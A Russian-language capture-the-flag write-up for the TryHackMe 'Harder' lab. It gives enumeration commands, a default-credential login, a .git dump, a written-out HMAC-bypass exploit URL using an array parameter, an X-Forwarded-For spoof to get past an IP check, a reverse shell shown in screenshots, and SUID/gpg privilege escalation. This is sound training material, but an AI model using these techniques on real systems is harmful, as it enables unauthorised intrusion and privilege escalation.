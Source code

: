 # Harder

:white_check_mark:  [**Vigenere Decode**](#vigenere)

:white_check_mark: [**reboot**](#reboot)

:white_check_mark: [**sudo**](#sudo)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV harder.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   4096 cf:e2:d9:27:d2:d9:f3:f7:8e:5d:d2:f9:9d:a4:fb:66 (RSA)
|_  256 1e:45:7b:0a:b5:aa:87:e6:1b:b1:b7:9f:5d:8f:85:70 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Error
|_http-server-header: nginx/1.18.0                                                        
```

Перехватываем запрос с главной страницы **harder.thm** и видим название поддомена **pwd.harder.local**. Добавляем поддомен в **/etc/hosts**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/1.png)

Теперь у нас есть доступ к панели авторизации.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/2_1.png)

Проходим аутентефикацию со стандартными логином и паролем **admin:admin**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/2_2.png)

Проверяем директории **pwd.harder.local**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/2.png)

```
gobuster dir -u http://pwd.harder.local -w /usr/share/wordlists/dirb/common.txt
```

```
===============================================================
[+] Url:                     http://pwd.harder.local
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/28 19:50:02 Starting gobuster in directory enumeration mode
===============================================================
/.git/HEAD            (Status: 200) [Size: 23]
/index.php            (Status: 200) [Size: 19926]
```

Находим директорию **/.git/HEAD**/. Попробуем сдампить **git** с [git-dumper](https://github.com/arthaud/git-dumper).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/3.png)

Используем команду **git checkout**. Git checkout используется для обновления заголовка с целью установки одной указанной ветви в качестве текущей ветви.
Получаем доступ к файлам:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/4.png)

Откроем файл **hmac.php**. 

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/5.png)

Скрипт сначала проверяет наличие **GET[‘h’]** или **GET[‘host’]**. Если один из них пуст - соединение обрывается. Затем скрипт включает файл secret.php, которого у нас нет в репозитории git. Далее, если **GET[‘n’]** не пуст, генерируется хеш-значение SHA256 с использованием метода HMAC, и ключ достается из файла secret.php, а новый хэш сохраняется в переменной $secret. Теперь, используя этот хэш в $secret в качестве ключа, генерируется хеш SHA256 параметра **GET[‘host’]** и сохраняется в переменной $hm. И, наконец, если $hm не равно **GET['h']**, соединение обрывается. Итак, теперь мы должны предсказать окончательный результат и передать его в **GET['h']**. Чтобы обойти это правило, передаем значение **GET[’n’]** как массив, который, дает значение $secret как ложное.

Создаем хэш с нужными условиями: 

```
php -r "echo hash_hmac('sha256', "pwd.harder.local", false)"

hash = 5b622e20b29bdbcb0a4881f1d117d20a33a1f78a3c07ba85645567607e75cedf
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/6.png)

Url для эксплуатации уязвимости: 

```
http://pwd.harder.local/?n[]=&h=5b622e20b29bdbcb0a4881f1d117d20a33a1f78a3c07ba85645567607e75cedf&host=pwd.harder.local
```
![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/7.png)

Добавляем новый поддомен и заходим в аккаунт.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/8.png)

Получение доступа возможно только с ip 10.10.10.x . Перехватываем запрос и модифицируем путем добавления заголовка **X-Forwarded-For: 10.10.10.10**, который позволит обойти проверку ip. [Расширение](https://addons.mozilla.org/ru/firefox/addon/x-forwarded-for-injector/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search) в Firefox позволяет подставлять этот заголовок автоматически.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/9.png)

Получаем доступ к "консоли". 

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/10.png)

Кидаем обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/11.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/12.png)

Находим файлы к которым имеет доступ пользователь www.
```
find / -type f -user www 2>/dev/null
```

Find находит интересный файл, выведем его в консоль.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/13.png)

Теперь мы имеем доступ к машине по ssh. Пробуем найти файлы сожержащие **SUID**.
```
find / -perm -u=s 2>/dev/null
```
Просмотрим содержимое скрипта. Нужен ключ gpg.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/14.png)

Ключ gpg находится в **/var/backups**. Импортируем ключ.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/15.png)

## Privilege escalation

Создадим файл с командой, зашифруем ключом gpg, используем скрипт.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/16.png)